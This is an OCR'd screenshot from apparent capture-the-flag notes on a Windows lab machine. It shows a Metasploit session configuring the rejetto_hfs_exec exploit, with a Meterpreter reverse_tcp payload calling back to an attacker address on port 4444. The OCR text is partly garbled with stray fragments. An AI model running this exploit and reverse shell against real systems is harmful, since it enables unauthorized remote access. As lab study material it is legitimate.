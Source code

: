 ![](Maszyny/Windows/Optimum/Pasted%20image%2020210811171452.png)

msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > use windows/http/rejetto_hfs_exec
[*] Using configured payload windows/meterpreter/reverse_top Remote
msf6 exploit(windows/http/rejetto_hfs_exec) > options
CONTACTE
Module options (exploit/windows/http/rejetto_hfs_exec): for Window latform,
10
no
Name Current Setting Required Description
HTTPDELAY
Seconds to wait before terminating web server
Proxies
no
A proxy chain of format type: host:port[, type: host: port][ ... ]
RHOSTS 10.10.10.8
yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80
yes The target port (TCP)
SRVHOST 0.0.0.0
yes The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
SRVPORT
8080
yes The local port to listen on.
ss
SSL
false
no
Negotiate SSL/TLS for outgoing connections
SSLCert
no
no
httpsdlc
Path to a custom SSL certificate (default is randomly generated)
TARGETURI /
yes The path of the web application
URIPATH
CV no The URI to use for this exploit (default is random)
VHOST
no
HTTP server virtual host
PEA
Payload options (windows/meterpreter/reverse_tcp):
Name
Current Setting Required
Description
LHOST
EXITFUNC process
10.10.14.19
LPORT 4444
yes
yes
yes
Exit technique (Accepted: ", seh, thread, process, none)
The listen address (an interface may be specified)
The listen port
